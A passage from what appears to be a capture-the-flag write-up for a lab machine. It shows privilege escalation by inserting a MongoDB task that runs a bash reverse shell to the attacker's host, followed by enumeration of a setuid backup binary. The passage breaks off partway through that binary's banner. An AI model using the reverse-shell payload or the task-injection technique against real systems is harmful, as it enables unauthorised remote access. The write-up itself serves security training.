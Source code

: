 Then, we just need to insert a new task in JSON format.&#x20;

```
> db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1'"})
WriteResult({ "nInserted" : 1 })
```

After a little bit, we should get a reverse shell on our machine as `tom`.&#x20;

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

Then we can grab the user flag.

### Backup Binary

Earlier, we saw that `tom` was part of the `sudo` group. We just have to find his credentials for an easy root. First, I ran LinPEAS to enumerate the file system for me. Within the Backup Files portion, I found this:

```
-rwsr-xr-- 1 root   admin       17K Sep  3  2017 /usr/local/bin/backup
```

When examined, it appears this is an ELF file:

{% code overflow="wrap" %}
```
tom@node:/tmp$ file /usr/local/bin/backup
/usr/local/bin/backup: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=343cf2d93fb2905848a42007439494a2b4984369, not stripped
```
{% endcode %}

This thing also takes in user input, and doesn't function without it:

```
tom@node:~$ backup 1 2 3



             ____________________________________________________
            /                                                    \
           |    _____________________________________________     |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |             Secure Backup v1.0              |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
```